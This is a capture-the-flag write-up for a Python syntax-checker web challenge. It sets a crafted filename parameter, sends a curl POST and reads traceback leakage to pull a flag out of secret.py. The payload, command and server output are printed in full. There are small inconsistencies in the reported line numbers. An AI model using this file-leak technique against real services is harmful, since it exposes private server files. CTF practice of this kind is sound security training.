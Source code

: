 #The Challenge Description 

![image](https://github.com/user-attachments/assets/ad0646fc-3161-4f40-9ead-0163cc48e22f)

Solved by : Trendo
Challenge link : http://python.ctf.theromanxpl0.it:7001/

---

### **Challenge Analysis**
A web application provides a Python syntax checker endpoint (`/check`) that uses `ast.parse()`. The server contains a `secret.py` file with the flag, which we need to extract through error message leakage.

---

### **Key Vulnerabilities**
1. **Filename Parameter Control**  
   The `filename` parameter in the JSON payload isn't sanitized, allowing path specification.
   
2. **Error Message Leakage**  
   Syntax errors return tracebacks showing code context from the specified file.

---

### **Exploit Strategy**
1. **Force Error Context Leakage**  
   Craft a payload that triggers a syntax error at the exact line where `FLAG` is declared in `secret.py`.

2. **Structure Mirroring**  
   Replicate `secret.py`'s code structure up to the flag declaration line to align error positions.

---

### **Step-by-Step Exploit**

#### 1. Analyze `secret.py` Structure
```python
def main():
    print("Here's the flag: ")
    print(FLAG) 
    
FLAG = "TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}"

main()
```

#### 2. Craft Malicious Payload
```python
{
    "source": (
        "def main():\n"
        "    print(\"Here's the flag: \")\n"
        "    print(FLAG)\n\n"
        "FLAG = \"\"\n"  # Valid syntax up to line 4
        "invalid syntax"  # Force error at line 5
    ),
    "filename": "secret.py"
}
```

#### 3. Send Payload to Endpoint
```bash
curl -X POST http://python.ctf.theromanxpl0.it:7001/check \
     -H "Content-Type: application/json" \
     -d '{"source":"def main():\n    print(\"Here\'s the flag: \")\n    print(FLAG)\n\nFLAG = \"\"\ninvalid syntax","filename":"secret.py"}'
```

#### 4. Analyze Error Response
The server returns:
```
  File "secret.py", line 5
    invalid syntax
    ^
SyntaxError: invalid syntax
```

**Surrounding Context:**
```
3│    print(FLAG)
4│    
5│FLAG = "TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}"
```

---

**Flag:** `TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}`
